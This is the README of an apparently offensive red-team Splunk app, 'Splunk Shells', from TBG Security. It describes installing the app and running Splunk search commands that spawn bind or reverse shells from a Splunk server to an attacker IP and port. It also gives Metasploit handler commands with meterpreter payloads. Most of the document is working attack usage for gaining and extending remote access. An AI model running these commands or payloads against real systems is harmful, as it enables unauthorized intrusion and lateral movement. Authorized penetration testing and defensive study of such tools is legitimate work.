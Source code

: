 Splunk Shells App Version 1.2
TBG Security Ryan Hays
This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.
This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to interact with the server and expand influence within the environment.

Install
Download the release from https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz
Navigate to the "Manage Apps" and click on "Install app from file"
Click on "Choose File" and select the downloaded release archive.
Once it is installed you will have to restart Splunk

For Splunk v6.5 ONLY Once Splunk is restarted click on Permissions for the splunk_shells app. 
Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

Usage

Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:
Setup Metasploit Handler

use multi/handler
set payload python/meterpreter_reverse_tcp
set payload python/meterpreter_bind_tcp
set payload python/shell_reverse_tcp
set payload python/shell_bind_tcp
set LHOST
set LPORT
exploit -j

Bind Shell

'| bindshell SHELLTYPE PORTNUMBER'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a 
port number it defaults to 8888

Reverse Shell

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
ATTACKERIP - Specify the IP that you want to shell to be sent back to.
ATTACKERPORT - Specify the port you want the shell to be sent back to.
